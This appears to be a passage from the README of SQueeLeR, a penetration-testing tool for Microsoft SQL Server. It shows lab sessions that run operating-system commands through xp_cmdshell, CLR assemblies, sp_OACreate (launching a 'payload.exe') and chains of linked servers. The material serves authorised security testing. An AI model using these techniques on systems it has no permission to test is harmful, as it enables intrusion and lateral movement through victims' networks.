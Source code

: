 SQueeLeR will connect to the `master` database by default, but you can specify a different database on the command line using the `-d`/`--database` flag. You can also switch the active database at anytime using the `use` command:

```
sql01 (master) » use msdb
Switched active database to msdb
sql01 (msdb) »  
```

## Command execution

Using Xp_cmdshell:

```
sql01 » xp_cmdshell -c "whoami"
Output from command: rlab\mssqlserver$
sql01 » xp_cmdshell
Entering xp_cmdshell mode. Enter `back` to return to main menu.
sql01 {xp_cmdshell}> dir c:\
 Volume in drive C has no label.
 Volume Serial Number is CC81-BE60
 Directory of c:\
15/08/2018  22:16    <DIR>          PerfLogs
09/08/2022  14:36    <DIR>          Program Files
15/10/2017  17:07    <DIR>          Program Files (x86)
09/08/2022  14:33    <DIR>          Users
10/08/2022  13:13    <DIR>          Windows
               0 File(s)              0 bytes
               5 Dir(s)  11,185,426,432 bytes free
sql01 {xp_cmdshell}>
```

If a database has the TRUSTWORTHY property set, it may be possible to use the CREATE ASSEMBLY statement to import a .NET DLL and execute methods within it. This can be accomplished with the `assembly` command:

```
sql01 » assembly -c "whoami"
Output from command: rlab\mssqlserver$
```

Code execution can also be done with sp_OACreate, however output from the command is not returned:

```
sql01 » sp_oa -c "c:\windows\temp\payload.exe"
```

Finally, you can execute system commands on linked servers via xp_cmdshell using the `link_exec` command:

```
sql01 » link_exec -h
usage:  link_exec [-h|--help] -l|--links "<value>" -c|--command "<value>"
        [-t|--timeout <integer>] [-v|--verbose]

        Execute system command against a linked SQL server via xp_cmdshell

Arguments:

  -h  --help     Print help information
  -l  --links    Comma-separated chain of links
  -c  --command  System command to run
  -t  --timeout  Max number of seconds to wait for command to complete.
                 Default: 30
  -v  --verbose  Enable debug output
```
